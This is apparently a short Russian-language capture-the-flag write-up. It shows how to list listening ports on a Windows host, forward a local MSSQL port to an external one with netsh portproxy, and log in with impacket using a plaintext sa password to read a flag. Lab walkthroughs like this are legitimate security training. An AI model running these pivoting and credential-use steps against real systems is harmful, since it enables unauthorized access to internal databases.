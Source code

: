 Подключаемся по rdp и проверяем какие порты прослушаваются
```
netstat -ano
```
Отфильтруем процессы по интересующему индификатору
```
tasklist | findstr 960
```

Пробросим трафик и проверим
```
netsh interface portproxy add v4tov4 listenaddress=0.0.0.0 listenport=8080 connectaddress=127.0.0.1 connectport=1433


netsh interface portproxy show all

```

Теперь с помощью impacket подключимся к mssql и прочитаем флаг

```
impacket-mssqlclient sa:'euteiGhaetah2ohy'@10.10.0.55 -p 8080

enum_db
use Flag
SELECT * FROM flag
```

